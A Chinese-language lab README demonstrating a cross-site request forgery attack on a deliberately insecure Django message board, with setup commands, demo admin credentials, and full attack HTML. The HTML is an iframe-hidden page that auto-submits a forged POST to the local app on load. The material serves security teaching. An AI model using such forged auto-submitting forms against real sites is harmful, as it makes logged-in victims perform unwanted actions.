







#CSRF-django
##环境
django（https://github.com/c-bata/django-unsecure-examples）

python server

##简介
/admin登陆，/csrf模拟留言板存在csrf

##利用

项目目录下有 django-unsecure-examples 文件夹，

开启mysql

	docker-compose up -d

创建后台管理员  

	python3 manage.py createsuperuser
	admin
	admin@admin.com
	A12345678
	A12345678
	y

开启django服务

	python3 manage.py runserver

访问/admin登陆页面，登陆(admin/A12345678)

开启攻击端服务器

	cd csrf_attach
	python3 -m http.server 8080

在管理员登陆的情况下，访问127.0.0.1:8080/attack.html

可以看见admin发表了留言，留言板成功CSRF了

## 分析

index.html

	<html lang="ja">
	<head>
	    <title>CSRF攻撃サイト</title>
	    <meta charset="UTF-8">
	</head>
	<body>
	    
ようこそ！

	    <iframe width="0" height="0" src="attack.html"></iframe>
	</body>
	</html>

attack.html

	<html lang="ja">
	<head>
	    <title>CSRF攻撃サイト</title>
	    <meta charset="UTF-8">
	</head>
	<body onload="document.attackform.submit();">
	    
攻撃対象のアプリケーションを http://127.0.0.1:8000 で実行していて下さい。

	
	    <form name="attackform" action="http://127.0.0.1:8000/csrf/" method="post">
	        <input type="text" name="content" value="THIS IS CSRF ATTACK!!!">
	        <button type="submit">投稿</button>
	    </form>
	</body>
	</html>

使用iframe包含的情况是比较棘手的，因为这个网页基本没什么东西，实际上它包含的网页 attack.html 也可以被流量监测到。

